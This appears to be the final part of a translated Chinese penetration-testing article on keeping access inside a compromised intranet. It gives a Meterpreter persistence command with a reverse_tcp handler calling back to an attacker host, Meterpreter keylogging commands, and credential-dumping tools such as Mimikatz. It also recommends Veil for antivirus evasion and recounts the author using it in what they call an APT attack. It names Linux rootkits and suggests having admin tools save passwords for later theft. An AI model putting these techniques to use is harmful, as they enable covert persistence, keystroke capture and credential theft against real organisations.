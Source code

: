 the other one can be used by :


    meterpreter > run persistence -X -i 10 -p port -r hostip use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp exploit 


Of course, directly generated backdoor may be killed, so I recommend a great tool here,[veil](https://github.com/ChrisTruncer/Veil). I have used this tool to generate the backdoor in a small APT attack and the backdoor successfully bypassed the 360AV.



There are two commonly used backdoors under Linux-

Mafix rookit and Cymothoa. It is said that the latter one can clone the root user, but most backdoor is more like an encrypted nc which can star a new port. So if webshell could survive, you may consider using it as a maintenance mechanism.

## 2. the keylogger

The keylogger can be critical in an intranet(especially large scale) penetration process. Because once you crack a password, you crack a network segement.

I frequently use [Ixkeylog](https://github.com/dorneanu/ixkeylog/), compatible with linux>=2.63.

Or you can use the key log function that comes with meterpreter session


    keyscan_start keyscan_dump 


[Image: https://quip.com/-/blob/YCIAAADtDa5/cRaYG1_jRlb3Y2Cs2Nn0Gw][Image: https://quip.com/-/blob/YCIAAADtDa5/PlSN9q1rPVvx8W0ZxbKwEQ]
The benefit of Meterpreter is that meyerpreter can be injected in the memory in Windows without creating any process.


A tip: if you think a keylogger may cause too much attention, you can log on the system and set your management tools like navicat,putty,PLSQL, anddSecureCRT to remember your password.

## 3. hash

Mimikatz, needless to say, using Meterpreter you can directly load the modules.

Quarks PwDump

wce

# 05 something else

Intranet penetration is a very broad concept. I just talked about some very simple questions in this paper and some ordinary thoughts.

If it's possible, I would talk more about domain penetration,  printer, Office network sniffing and intrusion log cleanup.

from：http://drops.wooyun.org/tips/5234